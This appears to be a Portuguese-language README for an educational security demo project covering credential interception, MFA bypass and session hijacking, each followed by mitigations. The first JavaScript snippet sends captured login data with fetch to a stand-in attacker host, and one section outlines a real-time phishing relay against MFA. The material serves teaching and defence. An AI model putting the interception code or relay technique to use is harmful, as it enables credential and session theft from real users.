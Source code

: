 # Demonstração de Vulnerabilidades de Autenticação
## Projeto MEIV World Security

---

## Visão Geral

Este projeto demonstra três cenários principais de vulnerabilidades em processos de autenticação:

1. **Intercepção de Credenciais** - Como credenciais de login podem ser capturadas
2. **Bypass de MFA** - Como tokens de verificação em dois fatores podem ser interceptados
3. **Sequestro de Sessão** - Como tokens de sessão podem ser explorados

Todos os exemplos são para fins educacionais e de auditoria de segurança.

---

## Cenário 1: Intercepção de Credenciais

### Vulnerabilidade

O código malicioso pode capturar credenciais durante o processo de login:

```javascript
// DEMONSTRAÇÃO - NÃO IMPLEMENTAR EM PRODUÇÃO
export const interceptAuthData = (authData) => {
  console.warn('SECURITY DEMO: Intercepted authentication data:', authData);
  
  // Em um ataque real, os dados seriam enviados para infraestrutura do atacante
  fetch('https://malicious-server.example.com/collect', {
    method: 'POST',
    body: JSON.stringify(authData)
  });

  return authData;
};
```

### Vetores de Ataque

- Cross-Site Scripting (XSS)
- Extensões de navegador comprometidas
- Código malicioso injetado
- Phishing

### Mitigação

- Implementar Content Security Policy (CSP)
- Utilizar HTTPS com HSTS
- Validar entrada de utilizadores e sanitizar saída
- Implementar proteção contra CSRF

---

## Cenário 2: Bypass de MFA

### Vulnerabilidade

Mesmo com MFA ativado, os tokens de verificação podem ser interceptados:

```javascript
// DEMONSTRAÇÃO - NÃO IMPLEMENTAR EM PRODUÇÃO
export const interceptMFAToken = (token, userId) => {
  console.warn('SECURITY DEMO: Intercepted MFA token:', { token, userId });
  
  // Em um ataque real, o token seria usado rapidamente antes de expirar
  
  return token;
};
```

### Ataque em Tempo Real

Um atacante pode implementar um ataque de phishing em tempo real:

1. Utilizador acessa site malicioso que se parece com o site legítimo
2. Utilizador insere credenciais e token MFA
3. Atacante transmite credenciais e token para o site legítimo imediatamente
4. Atacante obtém acesso antes do token expirar

### Mitigação

- Implementar WebAuthn/FIDO2 (resistente a phishing)
- Associar sessão ao dispositivo/navegador
- Implementar detecção de anomalias e geolocalização
- Adicionar atrasos progressivos e limitação de tentativas

---

## Cenário 3: Sequestro de Sessão

### Vulnerabilidade

Após autenticação, os tokens de sessão podem ser comprometidos:

```javascript
// DEMONSTRAÇÃO - NÃO IMPLEMENTAR EM PRODUÇÃO
export const interceptSessionToken = (sessionToken) => {
  console.warn('SECURITY DEMO: Intercepted session token:', sessionToken);
  
  // Em um ataque real, este token seria usado para acesso não autorizado
  
  return sessionToken;
};
```

### Vetores de Ataque

- Armazenamento inseguro de tokens (localStorage)
- Cookies sem flags de segurança adequadas
- XSS permitindo acesso a tokens
- Tokens com tempo de vida muito longo

### Mitigação

- Utilizar cookies HttpOnly, Secure, SameSite=Strict
- Implementar rotação frequente de tokens
- Associar tokens a fingerprint do dispositivo
- Implementar monitorização de sessão e alertas

---

## Demonstração Prática

Nossa aplicação de demonstração MEIV World implementa:

1. **Monitorização em Tempo Real** - Detecta e alerta sobre atividades suspeitas
2. **Demonstração de Ataque Completo** - Mostra o ciclo de vida completo de um ataque
3. **Simulação de Prevenção** - Implementação de práticas recomendadas para prevenção

Para testar, utilize:
- Email: qualquer@exemplo.com
- Senha: qualquer senha com pelo menos 6 caracteres
- MFA: qualquer código de 6 dígitos

---

## Conclusão

- A autenticação segura requer múltiplas camadas de proteção
- MFA é essencial, mas não infalível sem implementação adequada
- A segurança de sessão é tão importante quanto a autenticação inicial
- Formação contínua e auditoria são fundamentais

---

## Próximos Passos

1. Revisar a implementação atual de autenticação
2. Aplicar a checklist de segurança a todos os sistemas
3. Implementar monitorização avançada de autenticação
4. Realizar formação periódica de equipes de desenvolvimento

---

## Recursos Adicionais

- Documentação completa em `/src/security/documentation/`
- Código de demonstração em `/src/security/middleware/`
- Checklist de segurança para auditoria
- Guia de formação para desenvolvedores

